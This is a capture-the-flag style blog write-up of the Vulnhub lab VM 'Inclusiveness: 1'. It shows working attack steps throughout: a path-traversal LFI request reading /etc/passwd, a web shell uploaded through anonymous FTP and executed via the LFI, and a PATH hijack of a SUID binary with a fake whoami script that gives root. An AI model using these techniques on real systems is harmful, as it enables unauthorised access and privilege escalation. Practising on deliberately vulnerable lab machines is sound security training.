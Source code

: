 ```yaml
---
layout: post
title:  "Vulnhub: INCLUSIVENESS: 1"
date:   2021-01-27 21:00:00 +1100
category: hacking
---
```


## Sustah
*Inclusiveness is an intermediate boot to root VM to practice your hacking skills. Can you get in?*

This is [INCLUSIVENESS: 1](https://www.vulnhub.com/entry/inclusiveness-1,422/) from Vulnhub. The creator described it as intermediate. Let's go.

## Ports
FTP, SSH and HTTP.

## FTP
Anonymous login with upload enabled, what's not to love? Doesn't help yet ... but it will (ooooh, foreshadowing).

## HTTP
The frontpage is just the Apache2 default page. Nothing much shows up, even with a big wordlist using *dirsearch*. We do get one interesting message though when trying to access *robots.txt*:

>You are not a search engine! You can't read my robots.txt! 

### User-Agent
So I'm not a search engine eh? What if I was?

``
User-Agent: Googlebot/2.1
``

Now I get this:

>User-agent: *  
Disallow: /secret_information/

Cool. What's that? Some text about DNS zone transfers. But we don't have a DNS port open, so it's not what we want. We do have two language options:

>http://192.168.1.179/secret_information/?lang=en.php

How's about LFI?

``
GET /secret_information/?lang=../../../../../../../../etc/passwd HTTP/1.1
``

Ding ding ding, we have a winner!

## Shell
So we've got the ability to upload files, and a way to include them. Can you say shell?

``
root@kali:/run/user/0/gvfs/ftp:host=inclusiveness/pub# cp /opt/vulnhub/inclusiveness/shell.php shell.php
``

and then

``
http://192.168.1.179/secret_information/?lang=../../../../../../../../var/ftp/pub/shell.php
``

Bingo. I did also check:

``
GET /secret_information/?lang=../../../../../../../../etc/vsftpd.conf HTTP/1.1
``

to see where the upload directory was. I checked for SSH keys and log poisoning before I uploaded the shell.

## Privesc
We've got one user, *tom*. He has a rootshell SUID binary, with the source code:

{% highlight c %}
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
{% endhighlight %}

Linpeas is having none of this:

{% highlight shell %}
-rwsr-xr-x 1 root root        17K Feb  8  2020 /home/tom/rootshell
  --- It looks like /home/tom/rootshell is executing whoami and you can impersonate it (strings line: whoami)
{% endhighlight %}

Savage. Let's give it a go:

{% highlight shell %}
www-data@inclusiveness:/home/tom$ cd /dev/shm
cd /dev/shm
www-data@inclusiveness:/dev/shm$ printf '#!/bin/bash\n' >> whoami
printf '#!/bin/bash\n' >> whoami
www-data@inclusiveness:/dev/shm$ printf 'echo tom\n' >> whoami
printf 'echo tom\n' >> whoami
www-data@inclusiveness:/dev/shm$ chmod +x whoami
chmod +x whoami
www-data@inclusiveness:/dev/shm$ export PATH=/dev/shm:$PATH
export PATH=/dev/shm:$PATH
www-data@inclusiveness:/dev/shm$ /home/tom/rootshell
/home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# id;hostname
id;hostname
uid=0(root) gid=33(www-data) groups=33(www-data)
inclusiveness
{% endhighlight %}

And that was that.

